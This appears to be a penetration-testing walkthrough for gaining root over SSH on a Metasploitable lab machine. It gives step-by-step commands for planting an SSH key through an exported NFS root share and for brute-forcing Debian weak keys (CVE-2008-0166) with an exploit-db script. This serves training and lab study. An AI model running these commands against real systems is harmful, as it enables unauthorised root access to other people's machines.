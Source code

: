 
## Port 22 | ssh (OpenSSH)

https://www.youtube.com/watch?v=OxwKjp8xm9c

### Attack Vector #1 

1. Generate a new SSH key on Kali
```
# ssh-keygen
```
2. Checking Network File System (NFS)

- Option 1: use Nmap script to identify NFS
```
# nmap --script=nfs-ls 192.168.50.7
# nmap --script=nfs-showmount 192.168.50.7
```
- Option 2: use `showmount` command to determine if the "/" share (the root of the file system) is being exported. May need to install nfs-common package to use "showmount" command
```
# apt-get install nfs-common
# showmount -e 192.168.50.7
```
3. Mount the NFS export
```
# mkdir /tmp/victim
# mount -t nfs 192.168.50.7:/ /tmp/victim/
```
4. Add Kali's SSH key to the root user account's authorized_keys file (on the victim machine)
```
# cat ~/.ssh/id_rsa.pub >> /tmp/victim/root/.ssh/authorized_keys
# umount /tmp/victim
```
OR we can also get authorized SSH keys from the victim machine using the following command
```
# cat /tmp/victim/root/.ssh/authorized_keys
```
5. Login to victim machine using Kali's SSH key
```
# ssh root@192.168.50.7
root@metasploitable:~# whoami
```
### Attack Vector #2 

CVE-2008-0166

OpenSSL 0.9.8c-1 up to versions before 0.9.8g-9 on Debian-based operating systems uses a random number generator that generates predictable numbers, which makes it easier for remote attackers to conduct brute force guessing attacks against cryptographic keys.

1. We need to download the pre-calculated vulnerable keys from the link below

https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/5622.tar.bz2

2. Extract the file
```
# cp ~/Downloads/5622.tar.bz2 ~
# tar xvjf 5622.tar.bz2
```
3. Create the following Python script

https://www.exploit-db.com/exploits/5720/
```
# nano brute_force_ssh.py
# chmod 755 brute_force_ssh.py 
```
4. Run the script as follows
```
# python brute_force_ssh.py ~/rsa/2048/ 192.168.50.7 root
```
The above script checks if the `root` account has a weak SSH key, testing each key in the directory where we placed the keys (~/rsa/2048/)

5. Result...(about 15' using my laptop)
```
[snip]
...
Tested 18334 keys | Remaining 14434 keys | Aprox. Speed 26/sec
Tested 18472 keys | Remaining 14296 keys | Aprox. Speed 27/sec
Tested 18623 keys | Remaining 14145 keys | Aprox. Speed 30/sec

Key Found in file: 57c3115d77c56390332dc5c49978627a-5429
...
[snip]
```
6. After finding out the key, we can use it to log in as `root` via ssh
```
# ssh -l root -p 22 -i /root/rsa/2048//57c3115d77c56390332dc5c49978627a-5429 192.168.50.7

root@metasploitable:~# whoami
```

